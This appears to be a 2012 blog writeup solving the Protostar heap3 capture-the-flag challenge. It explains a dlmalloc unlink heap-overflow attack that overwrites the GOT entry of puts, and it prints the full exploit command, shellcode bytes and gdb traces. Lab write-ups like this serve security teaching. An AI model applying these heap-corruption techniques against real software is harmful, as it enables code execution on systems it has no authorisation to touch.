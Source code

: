 ```yaml
---
layout: post
title: Protostar heap3 solution / writeup
date: 2012-12-22 01:52:05.000000000 -05:00
type: post
published: true
status: publish
categories:
- Writeups
tags:
- exploit
- exploitation
- heap
- protostar
- writeups
meta:
  _edit_last: '1'
author:
  login: csgadmin
  email: utdcsg@gmail.com
  display_name: csgadmin
  first_name: ''
  last_name: ''
---
```


    This is a writeup over protostar's heap3 exploitation challenge. Another member 
    wrote a writeup over this challenge as well, be sure to check that out as well :).

    We have 3 heap allocations: a, b and c. So on the heap we're going to have
    something similar to :

    [ a's header | data.... ] [ b's header | data.... ] [ c's header | data.... ]

    Given the 3 strcpy's, we can overwrite b and c however we choose. Since we're 
    using dlmalloc, and can completely control a chunk that is being free'd, we'll
    attack the UNLINK macro. This attack is written up completely in "Once upon a 
    free()" in phrack, http://www.phrack.org/issues.html?issue=57&id=9#article, so 
    this writeup is not a tutorial on the specific attack, rather it demonstrates 
    how to use the attack for this specific problem, heap3.

    We'll overwrite c's header data to unset c's PREV_INUSE flag, to trigger backwards
    consolidation. However, since we can't write null bytes, the previous size attribute
    of c will need to be negative value, 0xfffffff0. This will point relatively negative
    into c's data. So we'll trigger backwards consolidation, with a previous size of
    a negative value, pointing into c's data. This means we'll be creating a fake chunk
    inside of c's data.

    This fake chunk inside of c will have small values for the previous size and size
    attributes (setting the PREV_INUSE flag to 1, no more consolidation please), and
    the forward and backwards pointers will be completely in our control. This leverages
    the UNLINK macros :

      *(next->fd + 12) = next->bk
      *(next->bk + 8) = next->fd

    We will overwrite whatever forward+12 points to, with backward. However, then 
    backward+8 is overwritten with foward. *Important*, I originally just set :

    fw = GOT address of puts - 12
    bk = address of winner

    That works just fine, and puts will now call winner... *however*, winner+8 is a 
    function in the text section, we can't overwrite winner+8 with anything, because 
    this section of memory is not writeable. So... we can't point anything to winner, 
    because winner+8 is not writeable. Control flow must be sent to a writeable section of memory. Since we are already writting 3 buffers to the heap, which is writeable 
    (and executable in this case), and there is no ASLR, lets instead overwrite the 
    GOT address of puts with the address to one of our buffers. The buffer will then 
    have shellcode that calls winner.

    fw = GOT address fo puts - 12
    bk = address to shellcode inside of a's buffer

    The shellcode just needs one or two instructions, in this case I used : push address_of_winner, ret.

    Here is the overall diagram of what we'll be doing :


    The pieces of the puzzle we need :

    The GOT address of puts :

    user@protostar:/opt/protostar/bin$ objdump --dynamic-reloc ./heap3 | grep -i puts
    0804b128 R_386_JUMP_SLOT   puts

    The address of winner :

    (gdb) p winner
    $5 = {void (void)} 0x8048864 <winner>

    The shellcode we'll need :

    metasm > push 0x8048864
    "\x68\x64\x88\x04\x08"
    metasm > ret
    "\xc3"

    With all the pieces now, this is the exploit in action :

    # run the command
    (gdb) run $(python -c 'print "A"*4 + "\x68\x64\x88\x04\x08" + "\xc3" + "A"*22') $(python -c 'print "A"*32 + "\xf0\xff\xff\xff" + "\xfc\xff\xff\xff"') $(python -c 'print "A"*8+"\xf1\xff\xff\xff"*2+"\x1c\xb1\x04\x08"+"\x0c\xc0\x04\x08"+"A"*8')

    # the part of free that we are leveraging for the overwrites
    1: x/5i $eip
    0x80498fd <free+217>:   mov    DWORD PTR [eax+0xc],edx
    0x8049900 <free+220>:   mov    eax,DWORD PTR [ebp-0x18]
    0x8049903 <free+223>:   mov    edx,DWORD PTR [ebp-0x14]
    0x8049906 <free+226>:   mov    DWORD PTR [eax+0x8],edx
    0x8049909 <free+229>:   mov    eax,DWORD PTR [ebp-0x38]

    # eax points to the GOT address of puts
    (gdb) i r eax
    eax            0x804b11c        134525212
    (gdb) x/xw 0x804b11c+12
    0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:   0x08048796

    # edx points to our buffer inside of a
    (gdb) i r edx
    edx            0x804c00c        134529036
    # which contains the shellcode
    (gdb) x/2i 0x804c00c
    0x804c00c:      push   0x8048864
    0x804c011:      ret
    (gdb) c
    Continuing.

    Breakpoint 6, 0x08048935 in main (argc=4, argv=0xbffff7e4) at heap3/heap3.c:28
    28      heap3/heap3.c: No such file or directory.
            in heap3/heap3.c
    # we're about to call puts
    1: x/5i $eip
    0x8048935 <main+172>:   call   0x8048790 <puts@plt>
    0x804893a <main+177>:   leave
    0x804893b <main+178>:   ret
    0x804893c <malloc_init_state>:  push   ebp
    0x804893d <malloc_init_state+1>:        mov    ebp,esp

    # what the heap looks like
    (gdb) x/40xw 0x804c008-8
    0x804c000:      0x00000000      0x00000029      0x0804c028      0x04886468  # a gets mangled in the beggining, so the sc starts at 0x0804c00c
    0x804c010:      0x4141c308      0x0804b11c      0x41414141      0x41414141
    0x804c020:      0x41414141      0x41414141      0x00000000      0x00000029  # b starts
    0x804c030:      0x00000000      0x41414141      0x41414141      0x41414141
    0x804c040:      0x41414141      0x41414141      0x41414141      0xffffffec
    0x804c050:      0xfffffff0      0xfffffffc      0x41414141      0x41414141  # b overwrites c's headers
    0x804c060:      0xfffffff1      0xffffffed      0x0804b194      0x0804b194  # c contains a fake chunk, header + fw and bk pointers
    0x804c070:      0x41414141      0x41414141      0x00000000      0x00000f89
    0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804c090:      0x00000000      0x00000000      0x00000000      0x00000000

    Continuing.
    that wasn't too bad now, was it? @ 1325256074

    Program exited with code 056.

    # and outside of gdb
    user@protostar:/opt/protostar/bin$ ./heap3 $(python -c 'print "A"*4 + "\x68\x64\x88\x04\x08" + "\xc3" + "A"*22') $(python -c 'print "A"*32 + "\xf0\xff\xff\xff" + "\xfc\xff\xff\xff"') $(python -c 'print "A"*8+"\xf1\xff\xff\xff"*2+"\x1c\xb1\x04\x08"+"\x0c\xc0\x04\x08"+"A"*8')
    that wasn't too bad now, was it? @ 1325256161

    And a quick breakdown of the command used :

    arg1 = $(python -c 'print "A"*4 + "\x68\x64\x88\x04\x08" + "\xc3" + "A"*22') 
    - some padding that will get mangle'd by free
    - shellcode
    - more padding (no real need for trailing A's
    arg2 = $(python -c 'print "A"*32 + "\xf0\xff\xff\xff" + "\xfc\xff\xff\xff"') 
    - padding to reach c's header
    - overwrite c's header
    arg3 = $(python -c 'print "A"*8+"\xf1\xff\xff\xff"*2+"\x1c\xb1\x04\x08"+"\x0c\xc0\x04\x08"+"A"*8')
    - some padding
    - fake chunk header
    - fw
    - bk

    Happy exploiting :)
    Mitch
